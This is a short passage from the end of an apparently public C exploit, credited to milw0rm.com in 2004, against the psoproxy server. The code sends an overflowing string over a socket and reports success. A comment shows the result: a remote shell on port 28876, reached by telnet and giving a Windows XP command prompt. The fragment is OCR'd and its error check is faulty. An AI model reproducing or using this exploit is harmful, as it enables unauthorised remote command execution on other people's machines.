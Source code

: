 
    // Sending some Dangerous stuff
    i = send(sd,buffer,strlen(buffer),0);
    if (!i <0) { fprintf (stdout,"[!] Send() failed\n"); exit (-1) ; }

    fprintf(stdout,"[+] Overflowing string had been send\n");


    /* May psoproxy rest in peace (have cold a nice one and telnet to <host>  28876

     <C:\> telnet localhost 28876
     Microsoft Windows XP [versie 5.1.2600]
     (C) Copyright 1985-2001 Microsoft Corp.

     D:\>
    */


    // the cleaners !!
    WSACleanup();

    // [EOF]
    return 0;

    }

    // milw0rm.com [2004-02-26]
